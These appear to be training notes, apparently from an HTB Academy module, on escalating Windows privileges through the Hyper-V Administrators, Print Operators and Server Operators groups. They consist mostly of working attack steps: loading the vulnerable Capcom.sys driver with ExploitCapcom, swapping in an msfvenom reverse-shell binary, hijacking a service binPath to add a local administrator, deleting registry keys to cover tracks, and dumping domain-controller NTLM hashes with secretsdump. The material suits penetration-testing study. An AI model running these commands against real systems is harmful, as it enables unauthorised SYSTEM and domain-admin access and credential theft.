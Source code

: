 Hyper-V Admins could easily create a clone of the DC and mount the VDI/VHDX.

Upon deleteing a VM, `vmms.exe` attempts to restore the original file permissions of the
corresponding .vhdx file and does so as NT AUTHORITY/SYSTEM without impersonating
the user. WE can delete the .vhdx file and create a native hard link to point this file
to a protected SYSTEM file, which we will have full permissions to.

If the operating system is vulnerable to CVE-2018-0952 or CVE-2019-0841, we can leverage
this to gain SYSTEM privileges. Otherwise, we can try to take advantage of an application
on the server that has installed a service running in the context of SYSTEM.

### Target File

An example of this is Firefox, which installs the `Mozilla Maintenance Service`. We can update
this PoC to grant our current user full permissions on the file below:
https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1

```
C:\Program Files (x86)\Mozilla Maintenancce Service\maintenanceservice.exe
takeown /F C:\Program Files (x86)\Mozilla Maintenancce Service\maintenanceservice.exe
sc.exe start MozillaMaintenance
```

# Print Operators

`SeLoadDriverPrivilege`

This repo https://github.com/hfiref0x/UACME features a comprehensive list of UAC bypasses
which can be used form the command line.

```
whoami /priv
```

If we examine the privileges again, SeLoadDriverPrivilege is visible but disabled.

It's well known that the driver `Capcom.sys` contains functionality to allow any user to execute
shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver
and escalate privileges.

We can use this tool https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp to load the driver. The PoC enables the privilege as well as
loads the driver for us.

Download it locally and edit it, pasting the includes listed here:
```
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

Next, from Visual Studio 2019 Developer Command Prompt, compile it using `cl.exe`
Then download the Capcom.sys driver and save it to `C:\temp`. Issue the command to add
reference to this driver under our HKEY_CURRENT_USER tree.

```
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

reg add HKCU\System\CurrentControlSet\CAPCOM 
	/v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```

Verify the driver is not loaded:
```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

Verify Privilege is enabled:
```
EnableSeLoadDriverPrivilege.exe
```

Verify Capcom Driver is listed:
```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

Use ExploitCapcom Tool to Escalate Privileges:
```
.\ExploitCapcom.exe
```

## Alternate Exploitation - No GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

Code: c

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The `CommandLine` string in this example would be changed to:

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

We would set up a listener based on the msfvenom payload we generated and hopefully receieve
a reverse shell connection back when executing the exploit. If the reverse connection is blocked
we can try a bind shell or exec/add user payload.

#### Automating the Steps

We can use a tool such as EoPLoaderDriver to automate the process.
```
EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\Tools\Capcom.sys
```

## Clean-up

#### Removing Registry Key

We can cover our tracks a bit by deleting the registry key added earlier.
```cmd-session
reg delete HKCU\System\CurrentControlSet\Capcom
```

# Server Operators

The Server Operators groups allows members to administer Windows servers without needing
assignment of Domain Admin privileges. It's a very highly privileged group.

Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege`.

#### Querying the AppReadiness Service
```
sc qc AppReadiness
```

#### Checking Service Permissions with PsService
```
PsService.exe security AppReadiness
```

#### Checking Local Admin Group Membership
```
net local group Administrators
```

#### Modifying the Service Binary Path
```
sc config AppReadiness binPath="
	cmd /c net localgroup Administrators server_adm /add"
```

#### Starting the Service
```
sc start AppReadiness
```

#### Confirming Local Admin Group Membership
```
net local group Administrators
```

#### Confirming Local Admin Access on the DC
```bash
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```

#### Retrieving NTLM Password Hashes from the DC
```bash
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```

